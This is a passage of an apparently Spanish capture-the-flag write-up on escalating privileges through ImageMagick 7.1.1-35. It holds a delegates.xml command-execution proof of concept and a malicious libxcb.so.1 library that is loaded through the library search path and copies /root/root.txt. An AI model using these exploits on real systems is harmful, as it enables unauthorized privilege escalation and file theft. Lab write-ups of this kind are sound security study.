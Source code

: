 ```bash
cat << EOF > ./delegates.xml
<delegatemap><delegate xmlns="" decode="XML" command="id"/></delegatemap>
EOF
```

y luego comprobar que si este en uso la ejecución del comando `id`:

```bash
$ ls -al
drwxr-xr-x 2 user user 4096 Jul 20 03:31 .
drwxrwxrwt 1 user user 4096 Jul 20 11:52 ..
-rw-r--r-- 1 user user   74 Jul 20 11:52 delegates.xml
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ magick ./delegates.xml ./out.png 2>/dev/null
uid=1000(user) gid=1000(user) groups=1000(user)
```

Pero todo esto es como prueba de concepto POC, ya que nosotros lo haremos de otra forma:

Explotando la `LD_LIBRARY_PATH` 

1. Install the `AppImage` version `ImageMagick` and its dependencies:

```bash
/usr/bin/magick
$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```

2. Creamos una librería compartida que utiliza magick en el directorio actual de trabajo (Esto hace que el binario no busque en /lib) así carga directamente de nuestro directorio la librería maliciosa.

```c
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root.txt");
    exit(0);
}
EOF
```

3. Ya solo queda ejecutar magick
<div style="text-align: center;">